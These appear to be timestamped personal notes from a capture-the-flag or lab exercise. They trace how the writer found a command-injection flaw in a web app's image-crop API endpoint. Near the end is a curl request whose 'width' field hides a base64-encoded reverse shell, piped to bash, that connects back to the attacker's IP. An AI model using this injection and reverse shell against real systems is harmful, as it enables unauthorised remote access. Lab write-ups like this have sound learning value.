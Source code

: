 [10:32:55] But what can we do with it ? Bruteforce . But what ????? 
[10:33:08] We can bruteforce SECRET_KEY as it randomly generated , but it is only good for session keys . But how do we get RCE from it ???

[10:38:19] Checking blueprints , like what can we do with it
[10:39:02] Maybe they are present inside routes folder . Lets see . Nope no routes folder I guess
[10:43:07] From ffuf dir busting I can see there is a utils.py file
[10:46:33] Just how the app is configured in backend . Nothing useful I believe
[10:53:22] Shit in app.py , the packages imported are files actually . So we have the below files
	api_auth.py
	api_upload.py
	api_manage.py
	api_edit.py
	api_admin.py
	api_misc.py

[10:55:10] Lets download them
[10:57:22] BREAKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKKkk

[12:08:27] Back from the break

[12:15:58] API EDIT file has a a conversion type - crop where we can generate shell when subprocess is ran. Just need to figure out how . Now I need to figure out how to send an API request or whatever is it to get shell

[12:22:07] apply_visual_transform is the endpoint
	- http://$IP:8000/apply_visual_transform

[12:22:44] And we have to do this from test user account only

[12:23:41] We need JSON payload with these params
	- imageId
	- transformType --- which could be crop
	- And we need to upload an image and findout the ID of it 
	- And the image must be in the allowed mime type list
	- And extension should be in allowed list

[12:29:23] We have to modify the extension some how to allow command injection
[12:30:46] Or there is a params dict in payload "x" and "y" "width" and "height"

[12:31:47] Lets send the request , we can upload file and get its ID by dumping db.json file

[12:33:53] Uploaded a file and dumped db.json file

[12:34:27] This is the id - 6ed3b6c0-826d-4894-a3b4-d2b6c693652a

[12:34:59] Now sending curl request 
	- curl -H "Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aN9RUw.OWHWbAClXsoFgs1Uk0yytql60oQ" http://$IP:8000/apply_visual_transform --json '{"imageId":"6ed3b6c0-826d-4894-a3b4-d2b6c693652a", "transformType" : "crop", "params" : "{'x': 20,
	'y': ; 10,
	'width' : 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTEvNDQ0NCAwPiYxCg== | base64 -d | bash #',
	'height' : 222}"}'


[12:49:06] Created the python program for the same above payload and request . Lets run it and see if we get shell
[12:50:23] We need to add Content-Type too . Lets add it in the program
